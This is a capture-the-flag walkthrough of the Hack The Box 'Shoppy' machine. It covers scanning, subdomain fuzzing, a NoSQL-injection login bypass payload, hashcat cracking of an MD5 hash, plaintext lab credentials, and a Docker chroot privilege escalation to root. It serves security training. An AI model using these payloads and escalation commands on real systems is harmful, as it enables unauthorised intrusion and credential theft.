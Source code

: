 ![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360c5003abe63ea2c6fbff4_Shoppy.png)

### Nmap

Nmap Shows only 2 open ports:  
22/tcp SSH  
80/tcp HTTP

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360c65e720e3f6a194da2eb_01-nmap.png)

### Directory Fuzzing

Quick directory scan with gobuster
![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360c6be78f08dcea63b0e08_02-gobuster.png)

### SubDomains Fuzzing

Fuzzing for subdomains we found one with the wordlist **bitquark-subdomains-top100000.txt** 
```sh
ffuf -H "Host: FUZZ.shoppy.htb" -w
/usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u
http://FUZZ.shoppy.htb
```

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360cc603abe63473f70078d_08-FFuf.png)


### SQLi Login Bypass

We can try some login bypass **SQLinjection** and we obtain access with a NoSQL injection.
<https://book.hacktricks.xyz/pentesting-web/nosql-injection>  

```
admin' || '"_"
```

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360c8f69c0f3628d7f9c74b_04-sqli.png)

This is the internal Dashboard of the webapp.

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360c8f177b2ce065a8b2586_05-adminpage.png)

  
If we click the "**search for users**" button, and we use the same sqli we used for the login it will give us a json export with credentials to download.
‍

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360ca80701e5f5e26897c4f_06-search.png)![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360cac1bccf18280b20f411_07-json.png)

### Mattermost

**Josh** credentials works in the subdomain page. The password is an MD5 crackable with **john the ripper** or **hashcat**

```sh
hashcat '6ebcea65320589ca4f2f1ce039975995' -a 0 -m 0 --wordlist /usr/share/wordlists/rockyou.txt
```

Go to http://mattermost.shoppy.htb  and you'll be redirect to a login page and use this credentials:  
User: **josh**  
Pass: **remembermethisway**

Once inside the subdomain dashboard we find very interesting info that will give us **ssh access** and will help us later with the **privesc to become root**

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360d1b383fe8784c1544f39_09-mattermost.png)

Usiamo le seguenti credenziali di accesso per ssh  
username: **jaeger**  
password: **Sh0ppyBest@pp!**
### SSH

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360d23f26a735312a2f5069_10-ssh.png)

Inside the home folder we notice that there are 2 folders **jaeger** and **deploy**.
Inside deploy there are three files
![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360d3324e80021b6b83c27c_11_1-password-manager.png)

If we just cat the **"password manager"** bin we can see the password: **Sample**
```sh
cat /home/deploy/password-manager  
```

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360d44a77b2ce801d8bb558_11-password-manager.png)

So we have the password to execute the binary as deploy:
```sh
sudo -u deploy /home/deploy/password-manager
```

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360d5144e800217f383de86_12-deploy.png)

We now have the credentials to become deploy user, we can access via ssh
```sh
ssh deploy@localhost
```

### Privesc to Root

We know we are inside a **Docker** thanks to the kind message from **mattermost.shoppy.htb**

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360d5686855c969745ec2f2_docker-enum.png)

We can look for a command that allow us to privesc to root on GTOBINS!
‍[https://gtfobins.github.io/gtfobins/docker  
‍](https://gtfobins.github.io/gtfobins/docker/)

```sh
docker run -v /:/mnt --rm -it alpine chroot /mnt sh  
```

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360d6ab82ec262ee6cd53be_14-root.png)

**ROOT!**